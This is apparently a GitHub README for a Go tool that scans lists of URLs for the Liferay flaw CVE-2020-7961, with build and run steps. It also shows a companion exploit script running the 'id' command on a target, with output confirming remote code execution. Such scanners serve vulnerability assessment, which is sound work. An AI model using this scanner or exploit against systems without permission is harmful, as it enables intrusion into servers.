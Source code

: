 # liferay-scanner
Vuln Liferay scanner.

```
Liferay scanner for CVE-2020-7961
```

About
---
```
Code Completely Ripped off from @tomnomnom - he is a hero if you meet him buy him a bevvie!!

if vuln it should add it to liferay.log
Mainly made by tomnomnom and i changed the request to look for liferay.
```

Build
---

```
go get -u github.com/fatih/color
go build liferay.go
```


How to run
---

`cat list.txt | ./liferay`

Note
---
This requires a list of urls with https:// or http://



Liferay Exploit
---

```
python liferay-exploit.py -t https://myserver -c id
```

```
Status code:   200
Response body: b'uid=1002(liferay) gid=1002(liferay) groups=1002(liferay)\n'
```
